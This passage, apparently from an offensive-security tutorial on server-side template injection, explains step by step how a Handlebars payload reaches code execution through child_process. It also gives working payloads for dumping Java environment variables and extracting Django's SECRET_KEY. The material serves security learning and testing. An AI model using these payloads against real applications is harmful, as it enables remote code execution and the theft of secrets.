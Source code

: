 	3. It pushes the `Function` constructor into the `conslist`.
6. The `{{this.pop}}` removes the last element again.
7. The `{{#with string.split as |codelist|}}` assigns the value `string.split` to the variable `codelist`. `string.split` is a method that splits a string into an array of substrings.
	1. Uses the array to store the malicious code to execute. `codelist` eventually holds the JS code as strings, which are combined and executed via the `Function` constructor.
8. The `{{this.pop}}` removes the last element again.
9. The `{{this.push "return require('child_process').exec('ls');"}}` is where the malicious payload is injected. It pushes the string into the `codelist` array. When executed, it runs the require method, which allows system commands. 
10. The `{{this.pop}}` removes the last element again.
11. The `{{#each conslist}}` iterates over the `conslist` array. For each element, it attempts to execute the code stored in `codelist`.
12. The `{{#with (string.sub.apply 0 codelist)}}` calls the apply method on `string.sub`, with arguments `0` and `codelist`. The `string.sub.apply` part applies the function `string.sub` to the array. The `codelist` contains JS code, and through apply, it executes by using the `Function` constructor injected earlier.
13. The `{{this}}` part refers to the result of the previous with block, which is the result of the executed code.

Additionally, for Handlebars templating engine, you can try and identify it via the following payload:

```javascript
{{this}}{{self}}
```
# Developer-Supplied Objects

Many template engines expose a self or environment object acting like a namespace containing all objects, methods and attributes supported. If it exists, use it to generate a list of objects in scope. In Java templating languages, list all variables via:

```java
${T(java.lang.System).getenv()}
```

Sites will contain built-in objects and custom objects. Pay attention to the custom ones as they contain sensitive information or exploitable methods. 

If RCE is not available, try leveraging SSTI for other exploits, such as file path traversal to search for sensitive data.

For example, if after fuzzing or editing a template you find an app running Django, it has a built-in template tag - `debug` - that can display debugging information:

```django
{% debug %}
```

Analyse the list of objects and properties for anything interesting. An interesting one may be the `settings` object as it contains a `SECRET_KEY` property. To extract it:

```django
{{settings.SECRET_KEY}}
```
# Custom Exploits Using an Object Chain
